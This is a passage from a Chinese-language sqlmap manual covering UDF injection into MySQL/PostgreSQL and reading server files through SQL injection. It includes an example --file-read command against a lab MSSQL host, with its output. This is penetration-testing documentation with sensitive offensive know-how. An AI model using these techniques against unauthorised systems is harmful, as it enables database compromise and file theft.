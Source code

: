 
爆破表位于`txt/common-columns.txt`,你可根据需要修改。

### 3.11 用户定义函数注入（UDF）
> 参数和开关 --udf-inject, --shared-lib

UDF即`user-defined function`，是一种针对MySQL和PostgreSQL的高级注入技术，可参考[Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857),你可以使用选项`--udf-inject`根据操作来使用它

你可以通过编译MySQL或PostgreSQL共享库，Windows DLL或Linux/Unix共享对象来注入你自己定义的函数（UDFS)，然后向sqlmap提供共享库路径，sqlmap将会问你一些问题，然后将共享库上传到数据库服务器文件系统上，从中创建用户自定义函数，然后根据你的选择来使用它们。当你完成注入时，sqlmap也可以从数据库中删除它们。

使用`--shared-lib`参数将通过命令行来指定共享库本地文件系统路径，否则sqlmap将会在运行是询问你路径。

该功能仅在数据库管理系统是MySQL或PostgreSQL时可用。

### 3.12 文件系统访问

#### **3.12.1 读取服务器上的文件**
> 参数 --file-read

当后端数据库管理系统为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户具有读取文件系统的文件权限时，sqlmap可以读取系统中的文件。可以是文本文件也可以是二进制文件。

这些技术可参考[ Advanced SQL injection to operating system full control](https://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)

针对Microsoft SQL Server 2005目标检索二进制文件的示例：
```
python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" --file-read "C:/example.exe" -v 1
```
结果：
```
[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```
可以看到文件以及被保存在本地了。

